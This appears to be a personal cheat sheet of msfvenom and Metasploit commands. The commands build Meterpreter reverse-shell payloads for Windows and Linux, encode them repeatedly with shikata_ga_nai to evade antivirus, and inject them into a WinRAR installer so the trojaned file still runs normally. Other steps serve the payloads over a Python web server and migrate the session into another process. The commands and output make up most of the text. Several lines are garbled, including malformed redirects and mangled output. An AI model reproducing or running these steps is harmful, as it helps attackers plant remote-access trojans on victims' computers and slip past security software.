 # 🛠️ MSFVENOM
	
	
msfvenom --list 

x64 <- 64 bit 
x86 <- 32 bit



-a <- architecture

-p payload
##Windows Examples
```bash
msfvenom -a x86 -p /windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > /home/ryzen/payload64.exe

msfvenom -a x64 -p /windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > /home/ryzen/payload64.exe
```

msfvenom --list --format

elf <- binary linux file executable


elf-so <- shared object

jar <- java file

osx-app <- mac

in linux no need to mention -a arcitecture 

msfvenom -p /linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > /home/ryzen/payload32

no need to mention .elf

chmod +x payload64

msfvenom -p /linux/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > /home/ryzen/payload64

python3 -m http.server 8080

pythom -m SimpleHTTPServer 80

#		 ENCODEING PAYLOAD 
		
		
we can envade older AV sol by encoding our payloads

encoding is modifying payload shellcode with the objective of modifying the payload signature

msfvenom --list encoders

best <- x86/shikata_ga_nai  ploymorphic xor additive feedback encoder

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=   LPORT = ..... -e x86/shikata_ga_nai -f exe > payload
```bash
 output: Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
		xB6/shikata_ga_nai succeeded with size 381 (iteration=0)
		x86/shikata_ga_nai chosen with final size 381
		Payload size: 381 bytes
		Final size of exe file: 73802 bytes
```		 
  
  
  
  more interation of encode more chance of bypassing the AV
  

>msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT =<PORT> -i 10 -e x86/shikata_ga_nai -f exe > payload
 
 	output:
		Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
		<86/shikata_ga_nai succeeded with size 381 (iteration=0)
		<86/shikata_ga_nai succeeded with size 408 (iteration=1)
		<86/shikata_ga_nai succeeded with size 435 (iteration=2)
		<86/shikata_ga_nai succeeded with size 462 (iteration=3)
		<86/shikata_ga_nai succeeded with size 489 (iteration=4)
		<86/shikata_ga_nai succeeded with size 516 (iteration=5)
		<86/shikata_ga_nai succeeded with size 543 (iteration=6)
		86/shikata_ga_nai succeeded with size 570 (iteration=7)
		86/shikata_ga_nai succeeded with size 597 (iteration=8)
		<86/shikata_ga_nai succeeded with size 624 (iteration=9)
		<86/shikata_ga_nai chosen with final size 624
		Payload size: 624 bytes
		Final size of exe file: 73802 bytes
  
  
  same for linux
but it is much smaller than windows payloads



#  Injecting Payloads Into Windows Portable Executables 

>msfvenom -x or --template for specify custom template also use -k or --keep to save behaviour and inject payload as a new thread

BEST option winRAR executable

generate 32 bin meterpreter payload then inject it in winrar setup file

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f exe > ~/Download/wrar32.exe > ~/payloads/winrar.exe

sudo python3 -m http.server 8080


msfconsole 
use mulit/handler
set payload window/meterpreter/reverse_tcp
 
 > run post/windows/manage/migrate
 
 why? 
 ```bash
 ->a post-exploitation module known as "migrate," which is used in a Windows environment. Essentially, this tool helps move the process that a Metasploit payload is running on into another process. And the whole idea is to dodge any interferen from Windows that might shut down that original process. So if you run this migration command, it might, for instance, hop into something like a notepad.exe process and just carry on from there. It's like a little digital shapeshifter trick to keep things running smoothly. And from there, you don’t really have to sweat the details of those modules anymore. It's all part of the fun of post-exploitation magic.
 ```
 k option 
 it mentain the original functianily of the portabel exectable and then it will execute the meterpreter payload lyeing inside the executable
 
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f exe *-k* > ~/Download/wrar32.exe > ~/payloads/winrarnew.exe 
  
  
  
  

